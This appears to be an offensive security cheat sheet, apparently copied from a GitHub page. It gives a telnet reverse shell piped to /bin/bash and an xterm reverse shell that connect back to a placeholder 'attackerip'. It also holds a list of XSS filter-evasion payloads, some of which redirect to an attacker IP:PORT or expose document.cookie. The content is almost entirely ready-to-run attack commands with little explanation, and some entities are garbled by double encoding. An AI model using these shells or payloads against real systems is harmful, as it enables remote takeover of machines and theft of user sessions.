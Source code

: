 ### TELNET Reverse Shell

```
# If netcat is not available or /dev/tcp
mknod backpipe p && telnet attackerip 443 0<backpipe | /bin/bash 1>backpipe
```
### XTERM Reverse Shell

```
# Start an open X Server on your system (:1 – which listens on TCP port 6001)
apt-get install xnest
Xnest :1

# Then remember to authorise on your system the target IP to connect to you
xterm -display 127.0.0.1:1

# Run this INSIDE the spawned xterm on the open X Server
xhost +targetip

# Then on the target connect back to the your X Server
xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1
or
$ DISPLAY=attackerip:0 xterm
```
### XSS Cheat Codes

```
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
("< iframes > src=http://IP:PORT </ iframes >")

<script>document.location=http://IP:PORT</script>

';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//–></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

";!–"<XSS>=&amp;amp;{()}

<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>

<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
<IMG SRC="jav ascript:alert('XSS');">

perl -e 'print "<IMG SRC=javascript:alert(\"XSS\")>";' > out

<BODY onload!#$%&amp;()*~+-_.,:;?@[/|\]^`=alert("XSS")>

(">< iframes http://google.com < iframes >)

<BODY BACKGROUND="javascript:alert('XSS')">
<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
"><script >alert(document.cookie)</script>
%253cscript%253ealert(document.cookie)%253c/script%253e
```
